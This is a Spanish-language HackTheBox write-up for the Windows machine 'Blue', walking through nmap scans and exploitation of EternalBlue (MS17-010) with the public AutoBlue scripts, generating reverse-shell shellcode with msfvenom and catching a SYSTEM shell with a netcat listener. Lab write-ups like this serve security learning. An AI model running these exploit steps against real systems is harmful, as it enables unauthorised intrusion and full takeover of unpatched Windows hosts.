 ```yaml
---
title: HackTheBox - Blue
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, 'Eternal Blue (MS17-010)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Blue/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Blue Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackThBox.

Técnicas usadas: **Eternal Blue (MS17-010)**


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **Máquina Blue**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Blue/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Blue/02-versions.png)

    * El uso de este sistema operativo y la exposición del servicio **SMB** lo hace vulnerables a **Eternal Blue**

c. Usaremos el siguiente exploit [Auto-Blue](https://github.com/3ndG4me/AutoBlue-MS17-010)

* Entramos en el directorio **shell_code** y usamos el script **shell_prep.sh**

    ```bash
    root@kali> .\shell_prep.sh

    kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
    Y
    LHOST for reverse connection:
    <IP Blue>
    LPORT you want x64 to listen on:
    <Port>
    LPORT you want x86 to listen on:
    <Port>
    Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
    1
    Type 0 to generate a staged payload or 1 to generate a stageless payload
    1
    Generating x64 cmd shell (stageless)...
    ```

* Nos ponemos en escucha con **nc** en el puerto que hayamos especificado anteriormente y ejecutamos el script **eternalblue_exploit7.py**

    ```bash
    root@kali> python3 eternalblue_exploit7.py <IP Blue> shellcode/sc_x64.bin 
    shellcode size: 1232
    numGroomConn: 13
    Target OS: Windows 7 Professional 7601 Service Pack 1
    SMB1 session setup allocate nonpaged pool success
    SMB1 session setup allocate nonpaged pool success
    good response status: INVALID_PARAMETER
    done
    ----------------------------------------------------------------------------
    root@kali> nc -lvnp 443
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Windows\system32>whoami
    nt authority\system
    ```